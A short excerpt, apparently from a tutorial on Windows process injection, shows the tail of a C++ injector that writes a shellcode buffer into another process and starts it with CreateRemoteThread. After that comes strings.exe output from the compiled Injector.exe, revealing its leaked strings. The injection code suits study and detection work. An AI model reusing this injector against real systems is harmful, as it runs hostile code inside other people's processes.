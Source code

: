 ```c
	remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	cout << "Buffer Created";
	WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL);
	cout << "Process written with buffer" << remoteBuffer;
	remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	CloseHandle(processHandle);
	cout << "Closing handle" << processHandle;
	cout << leaked;

	return 0;
}
```

```powershell
C:\>.\strings.exe "\Injector.exe"

Strings v2.54 - Search for ANSI and Unicode strings in binary images.
Copyright (C) 1999-2021 Mark Russinovich
Sysinternals - www.sysinternals.com

!This program cannot be run in DOS mode.
>FU
z';
z';
...
[snip]
...
Y_^[
leaked
shellcode
2_^[]
...
[snip]
...
std::_Adjust_manually_vector_aligned
"invalid argument"
string too long
This was leaked in the strings
Handle obtained for
Buffer Created
Process written with buffer
Closing handle
std::_Allocate_manually_vector_aligned
bad allocation
Stack around the variable '
...
[snip]
...
8@9H9T9X9\\9h9|9
:$:(:D:H:
@1p1
```
